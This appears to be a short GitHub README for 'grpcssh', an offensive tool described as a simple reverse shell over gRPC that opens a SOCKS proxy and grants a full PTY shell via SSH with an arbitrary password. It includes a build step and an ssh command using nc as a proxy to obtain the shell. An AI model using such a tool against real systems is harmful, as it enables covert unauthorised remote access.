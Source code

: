 # `grpcssh` (now with proper concurrent socks)
```
better explained over at https://tishina.in/ops/grpcssh
an extension over grpc-ssh-socks. this can be considered a simple reverse shell. on connect,
a socks proxy is opened by the server. connecting over ssh to a hardcoded ip address with
an arbitrary password grants a full pty shell.

for the pty shell, full credit goes to https://gist.github.com/jpillora/
here it is, kind of working:
```
![image](https://github.com/zimnyaa/grpcssh/assets/502153/b3e4fce7-8ba4-46ce-9cff-d62fa4f7290f)

```
~/grpcssh$ make 
to build this even more abominable thing. 
~/grpcssh$ ssh -o ProxyCommand="nc -x localhost:1080 %h %p" -o "UserKnownHostsFile=/dev/null" root@1.1.1.1
to get a shell.
```
